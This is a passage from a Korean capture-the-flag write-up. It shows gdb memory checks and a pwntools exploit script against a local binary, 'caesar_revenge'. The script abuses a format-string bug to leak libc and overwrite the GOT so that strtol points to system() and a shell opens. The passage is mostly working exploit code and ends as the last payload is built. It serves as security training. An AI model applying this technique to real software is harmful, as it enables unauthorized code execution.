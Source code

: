 `printf()`가 실행되기 전의 메모리는 다음과 같다.

```bash
gdb-peda$ x/gx 0x404048
0x404048:	0x00007fcd471c2110
```

`strtol()`의 GOT에 값이 잘 들어가 있다. `printf()`가 실행된 후의 메모리는 다음과 같다.

```bash
gdb-peda$ x/gx 0x404048
0x404048:	0x00007fcd471cc440
```

`system()`의 주소가 적힌 것을 확인할 수 있다! 이제 인자로 `"/bin/sh"`만 입력해 주면 쉘을 획득할 수 있을 것이다.

---

최종 익스플로잇은 다음과 같다.

```python
# exploit_caesar_revenge.py

from pwn import *

e = ELF("./caesar_revenge")

addr_puts_got = e.got["puts"] # GOT address of puts()
addr_strtol_got = e.got["strtol"] # GOT address of strtol()
addr_caesar = 0x401196 # address of caesar()
offset_strtol = 0x45110 # offset of strtol() from libc base
offset_system = 0x4f440 # offset of system() from libc base

p = process("./caesar_revenge")

# make loop
payload = "%" + str(addr_caesar) + "x%26$ln"
payload = payload.ljust(16, ' ')
payload += p64(addr_puts_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

# libc leak
payload = "%25$s".ljust(8, ' ')
payload += p64(addr_strtol_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

p.recvuntil("Result: ")
addr_strtol = u64(p.recv(6).ljust(8, '\x00')) # address of strtol()
log.info("address of strtol(): " + hex(addr_strtol) + ", " + str(addr_strtol))
addr_libc = addr_strtol - offset_strtol # address of libc base
log.info("address of libc base: " + hex(addr_libc) + ", " + str(addr_libc))
addr_system = addr_libc + offset_system # address of system()
log.info("address of system(): " + hex(addr_system) + ", " + str(addr_system))

addr_system_first = addr_system & 0xffff
addr_system_second = (addr_system & 0xffff0000) >> 16

# strtol@GOT -> system()
payload = "%" + str(addr_system_first) + "x%28$hn"
payload += "%" + str(addr_system_second + 0x10000 - addr_system_first) + "x%29$hn"
payload = payload.ljust(32, ' ')
payload += p64(addr_strtol_got)
payload += p64(addr_strtol_got + 2)
```